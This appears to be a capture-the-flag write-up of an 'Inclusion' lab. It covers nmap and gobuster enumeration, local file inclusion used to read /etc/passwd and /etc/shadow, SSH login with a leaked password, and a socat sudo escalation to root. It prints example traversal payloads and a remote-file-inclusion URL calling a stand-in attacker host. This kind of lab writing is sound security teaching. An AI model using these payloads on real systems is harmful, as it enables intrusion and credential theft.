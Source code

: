 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

First, let's run a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration configured. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH** and **HTTP**. For the HTTP server, we can see that the http-title is **'My blog'**.

Let's first check out the HTTP webserver. Navigating to the website in our web browser, we come to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can obtain any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common extensions in our enumeration, such as **.php** and **.js**. We will also use Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan is going on, let's explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', will I have to carry out some form of **Local File Inclusion attack** using this search field?

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the **/etc/passwd** file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the **/etc/shadow** file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all. 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his **home** directory.

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration first. 

First, I ran the command `sudo -l` to see what sudo privileges that falconfeast had.

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I found a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a shell as root:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards root's home directory and obtain **root.txt**.

